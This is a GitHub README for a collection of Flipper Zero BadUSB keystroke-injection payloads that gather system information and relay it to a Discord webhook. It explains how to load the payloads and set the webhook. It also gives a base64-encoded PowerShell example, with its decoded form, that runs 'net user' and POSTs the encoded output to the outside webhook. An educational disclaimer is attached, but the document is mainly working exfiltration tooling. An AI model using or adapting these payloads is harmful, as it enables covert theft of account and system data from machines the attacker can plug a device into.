 # Flipper-Zero-BadUSB
Flipper Zero BadUSB payloads for relaying data to a Discord webhook.

## About
This repository contains a collection of payloads for the Flipper Zero, USB Rubber Ducky or similar devices. 

The idea of run the PowerShell payload in base64 was inspired by the project from [InfoSecREDD](https://github.com/InfoSecREDD/REPG).

## Disclaimer
All these payloads are designed for educational, testing, and research purposes in cybersecurity.

I am not a professional in PowerShell scripting. I am using this project to learn about DuckyScripting and its capabilities with Flipper Zero. 

Feel free to fork and contribute to the community.

## Usage
To load these payloads onto your Flipper Zero, you should copy them into the SDcard's "`badusb`" folder.

The provided script `Hostname2Disc.txt` will send the response in plain text because it's not too long (hostname).

However, in the example `SysInfo2Disc.txt` we see how the response will be sent in base64-encoded and in multiple messages as it exceeds the character limit of the POST method message.

Here are some things to consider:
* The `REM` command does not perform any keystroke injection, is just a comment.
* In each payload, remember to replace "`webhookgoeshere`" with your webhook URL for the variable `$webhook`.
* The base64-encoded code generated from the `echo` command contains the compiled PowerShell script. This can also be replaced with other PowerShell commands.
* As shorter the powershell script is, shorter the base64 string will be and it will run faster in powershell.

### Example:
Below is an example of a PowerShell script encoded in base64 that executes the `net user` command:

Base64 code:
```
JGNvbW1hbmQgPSBuZXQgdXNlcgokYjY0b3V0cHV0ID0gW0NvbnZlcnRdOjpUb0Jhc2U2NFN0cmluZyhbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCRjb21tYW5kKSkKJGJvZHkgPSBAewogICAgY29udGVudCA9ICRiNjRvdXRwdXQKfSB8IENvbnZlcnRUby1Kc29uCkludm9rZS1SZXN0TWV0aG9kIC1VcmkgJHdlYmhvb2sgLU1ldGhvZCBQb3N0IC1Cb2R5ICRib2R5IC1Db250ZW50VHlwZSAiYXBwbGljYXRpb24vanNvbiI=
```
Base64 decoded:
```
$command = net user
$b64output = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($command))
$body = @{
    content = $b64output
} | ConvertTo-Json
Invoke-RestMethod -Uri $webhook -Method Post -Body $body -ContentType "application/json"
```
In each PowerShell script, ensure to reference the variable `$webhook` for the request to be executed correctly.

## Links
You can use the following websites to encode and decode PowerShell scripts:
* Base64 Encode: https://www.base64encode.org/
* Base64 Decode: https://www.base64decode.org/
